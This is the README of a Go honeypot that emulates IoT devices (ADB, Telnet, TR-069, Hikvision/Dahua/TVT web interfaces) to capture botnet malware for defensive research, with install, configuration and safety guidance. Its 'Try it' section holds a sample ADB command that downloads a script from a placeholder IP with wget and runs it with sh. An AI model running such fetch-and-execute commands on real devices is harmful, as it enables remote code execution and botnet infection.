



<div align="center">

# 🪤 BotBait

**A hardened, dependency-free Go honeypot that lures IoT botnets, safely captures what they drop, and tells you about it in Telegram.**

ADB&nbsp;(5555) · TR-069&nbsp;(7547) · Telnet&nbsp;(23) · Hikvision&nbsp;(80) · TVT&nbsp;(81) · Dahua&nbsp;(8080) — one static binary, one command to install.


[](LICENSE)

&nbsp;&nbsp;&nbsp;

<sub>Real message layout, rendered with synthetic data (documentation IPs and ASNs).</sub>

</div>

---

## Why

Internet-facing IoT devices are infected within minutes by botnets that scan the whole IPv4 space for a handful of well-known management services. BotBait pretends to be such a device, records **how** the bots break in, **what** they run and **which malware** they try to install — without ever executing a single attacker command.

It is built for security research and defensive threat intelligence: run it on a throw-away VPS, watch the alerts, and analyse the JSONL telemetry offline.

## Features

| | |
|---|---|
| 🤖 **Convincing devices** | An Android TV box on ADB and a BusyBox router on Telnet, driven by swappable JSON *device profiles*. Serial numbers, MACs and IPs are randomised per deployment. |
| 📷 **Camera / DVR web personas** | Hikvision, Dahua and TVT web interfaces that recognise the exploit patterns botnets use against them (CVE-2021-36260, CVE-2017-7921, CVE-2025-34067, CVE-2021-33044/33045), answer plausibly and record the injected commands. Emulation only; see [what is real and what is approximate](docs/WEB_PERSONAS.md). |
| 📥 **`adb push` capture** | The ADB sync protocol is implemented, so uploaded binaries are streamed to a quota-bounded, content-addressed sample store. `cat`, `md5sum`, `xxd`, `dd`… on a pushed file return the real bytes, so bots that verify their upload keep going. |
| 🐚 **Shell emulator, not a shell** | ~150 commands, pipes, redirects, loops, `sh -c`, `base64 \| sh` — answered from a data-only profile and an in-memory copy-on-write file system. **Nothing is ever executed or forwarded.** |
| 🧬 **Safe payload capture** | SSRF-guarded downloader (5 s, 15 MiB hard ceilings), non-executable storage mode, SHA-256 addressing and file-type sniffing. |
| 🏷 **MITRE ATT&CK mapping** | Transparent, rule-based mapping (T1190, T1059.004, T1105, T1110.001, T1082, T1496) that you can audit and tune. |
| 🔔 **Telegram alerts** | Enriched with ASN/country, ATT&CK techniques, extracted IOCs and the SHA-256 of captured files (never file names — safe for a **public** channel), plus VirusTotal / AbuseIPDB / Check-Host buttons. |
| 🚨 **AbuseIPDB auto-reporting** | Optional. With a free API key, confirmed attackers (exploit signatures, shell commands, malware downloads) are reported to AbuseIPDB: once per address per 24 h, defanged links, no personal data, password guessing is reported too (without a Telegram alert). See [docs/ABUSEIPDB.md](docs/ABUSEIPDB.md). |
| 📊 **Weekly digest** | Sessions, unique IPs, top attack types, exploit signatures, ports, ASNs, countries and commands, posted once a week. |
| 🗃 **Research-grade telemetry** | One JSON line per session; a Python/SQLite pipeline and notebook builder in [`analysis/`](analysis). |
| 🛡 **Hardened by default** | Per-subnet token bucket, per-IP caps, worker pool with bounded queues, per-read and absolute deadlines, read-only root FS, `cap_drop: ALL`, UID 10001, `scratch` image. |

## Quick start

On a **dedicated, disposable** Debian/Ubuntu VPS (see [Safety](#safety-and-ethics)):

```bash
git clone https://github.com/generalregulator/botbait.git && cd botbait
sudo ./install.sh
```

The installer checks the system, installs Docker if missing, asks for your Telegram bot token and chat ID, validates them and sends a test message, optionally asks for an AbuseIPDB API key (validated, input hidden), checks that the ports are free, builds the image and starts the container in the background (`restart: unless-stopped`).

| Port (host) | Service | Why |
|---|---|---|
| `5555` | Android Debug Bridge | Unauthenticated ADB over TCP — a favourite of Mirai-family botnets |
| `7547` | TR-069 / CWMP (HTTP) | The CPE management port abused in router-takeover campaigns |
| `23` → `2323` | Telnet | Default-credential brute force |
| `80` → `8088` | Hikvision camera (HTTP) | Command injection and auth-bypass requests used by Mirai variants |
| `81` → `8081` | TVT DVR (HTTP) | NVMS-9000 DVRs are a reported Mirai target (login page and full recording only) |
| `8080` | Dahua camera (HTTP) | Login-bypass and default-credential attacks on Dahua devices |

Update later with the same script (`sudo ./install.sh --yes` reuses your saved settings). Remove everything with `sudo ./install.sh --uninstall --purge`.

<details>
<summary><b>Manual / Docker Compose</b></summary>

```bash
cp .env.example .env          # set TELEGRAM_BOT_TOKEN and TELEGRAM_CHAT_ID
docker compose up -d --build
docker compose logs -f honeypot
```

Run from source (Go 1.24, standard library only):

```bash
go build -o botbait ./cmd/honeypot && ./botbait -env-file .env
```
</details>

### Try it

```bash
adb connect <server-ip>:5555
adb shell "cd /data/local/tmp; busybox wget http://198.51.100.7/x.sh; sh x.sh"
adb push ./any-file /data/local/tmp/bot
telnet <server-ip> 23          # log in with any user, second attempt is accepted
```

Each of these produces a Telegram alert and a line in `data/events-YYYY-MM-DD.jsonl`.

## How it works



The network path never waits on the outside world: sessions only enqueue events, and everything slow (downloads, geolocation, Telegram) runs in the pipeline.

## Configuration

Everything is an environment variable (a `.env` file is loaded if present). The full, commented list is in [`.env.example`](.env.example); invalid values are reported together at start-up.

| Variable | Default | Meaning |
|---|---|---|
| `HP_PORTS` | `5555,7547,2323,8088,8081,8080` | Listening ports (container side) |
| `HP_WEB_PORTS` | `8088=hikvision,8081=tvt,8080=dahua` | Which web persona answers on which port |
| `HP_PROFILE` / `HP_TELNET_PROFILE` | `android-tvbox` / `router-busybox` | Device personas ([authoring guide](docs/PROFILES.md)) |
| `HP_RATE_PER_SEC` / `HP_RATE_BURST` | `1` / `10` | Token bucket per subnet — raise for more data |
| `HP_MAX_STORAGE_MB` | `512` | Quota for captured samples |
| `TELEGRAM_BOT_TOKEN` / `TELEGRAM_CHAT_ID` | empty | Both or neither; empty disables alerts |
| `ABUSEIPDB_API_KEY` | empty | Enables automatic AbuseIPDB reporting ([details](docs/ABUSEIPDB.md)) |
| `HP_DIGEST_DAY` / `HP_DIGEST_AT` | `mon` / `09:00` | Weekly digest day and time (UTC) |

Handy commands:

```bash
docker compose exec honeypot /honeypot -digest-preview   # print the weekly digest
docker compose exec honeypot /honeypot -digest-now       # send it to Telegram now
docker compose exec honeypot /honeypot -list-profiles    # built-in device profiles
```

## Analysis

```bash
python3 analysis/make_sample_data.py /tmp/demo --days 7   # SYNTHETIC data to try the pipeline
```

The loader, report script and notebook builder in [`analysis/`](analysis) turn the JSONL files into SQLite tables and figures. A step-by-step study design (research questions, metrics, reproducibility checklist) is in [`docs/THREAT_INTELLIGENCE_PLAN.md`](docs/THREAT_INTELLIGENCE_PLAN.md).

## Testing

```bash
make check                                                                  # vet, gofmt, full suite with the race detector
HP_SIM_REPORT=docs/SIMULATION_REPORT.md go test ./internal/e2e -run FullSensor   # regenerate the simulation report
```

`TestFullSensorSimulation` drives 42 attack and noise scenarios modelled on public reports over real sockets against all six ports and both device profiles, with fake Telegram, AbuseIPDB and malware servers. The result, including what it cannot prove, is in [`docs/SIMULATION_REPORT.md`](docs/SIMULATION_REPORT.md).

## Safety and ethics

* **Never** run it on a machine that holds secrets or has a route to your internal network. Use a dedicated VPS and block RFC1918 egress (see the [deployment guide](docs/TECHNICAL_REPORT.md#8-secure-deployment-guide)).
* Captured files are **live malware**. They are stored non-executable, addressed by hash, and must never be opened, executed or committed to a repository.
* Only the SHA-256 of a sample is published in alerts; the sensor-side file name is never shown.
* Collecting attacker IP addresses can be personal data in some jurisdictions. Read [section 14](docs/TECHNICAL_REPORT.md#14-ethics-and-legal-considerations) before publishing any dataset.
* Report vulnerabilities in the project itself via [`SECURITY.md`](SECURITY.md).

## Project status

Tested with `go vet`, `gofmt` and `go test -race ./...` (unit tests for every package plus end-to-end tests over real sockets: `adb push` → sample on disk → alert → JSONL; SOAP exploit; Telnet brute force; Slowloris; graceful shutdown). A complete HTTP session costs on the order of 50 µs under parallel loopback load (indicative, single machine).

Honest limitations: the shell is an emulator, so a determined adversary can fingerprint it; ATT&CK mapping is rule-based and will have false positives on novel exploits; the free ip-api.com tier is HTTP-only and rate limited; it has not yet been field-tested at scale. The complete list is in [section 13 of the technical report](docs/TECHNICAL_REPORT.md#13-limitations-and-future-work).

## Documentation

| | |
|---|---|
| [Technical report](docs/TECHNICAL_REPORT.md) | Architecture, protocol emulation, threat model, alert format, testing, limitations |
| [Device profiles](docs/PROFILES.md) | Writing your own persona (JSON, placeholders, exec rules) |
| [Camera / DVR web personas](docs/WEB_PERSONAS.md) | What the Hikvision, Dahua and TVT personas recognise, sources, honest limits |
| [Threat-intelligence plan](docs/THREAT_INTELLIGENCE_PLAN.md) | Study design and reporting outline |
| [Contributing](CONTRIBUTING.md) · [Security](SECURITY.md) · [Changelog](CHANGELOG.md) | |

## Related projects

BotBait is deliberately small and focused. If you need broader coverage, look at [T-Pot](https://github.com/telekom-security/tpotce) (a multi-honeypot platform), [Cowrie](https://github.com/cowrie/cowrie) (SSH/Telnet, medium–high interaction), [Beelzebub](https://github.com/beelzebub-labs/beelzebub) (Go, YAML-defined and LLM-powered decoys) and [ADBHoneypot](https://github.com/bontchev/adbhoneypot). They are older and battle-tested; BotBait's niche is a single static binary that speaks ADB (including file push), TR-069, Telnet and camera/DVR web interfaces with ATT&CK mapping and Telegram reporting out of the box.

## Contributing and license

Issues and pull requests are welcome — see [`CONTRIBUTING.md`](CONTRIBUTING.md) and the [Code of Conduct](CODE_OF_CONDUCT.md). If you use BotBait in research, please cite it ([`CITATION.cff`](CITATION.cff)). Released under the [MIT License](LICENSE).
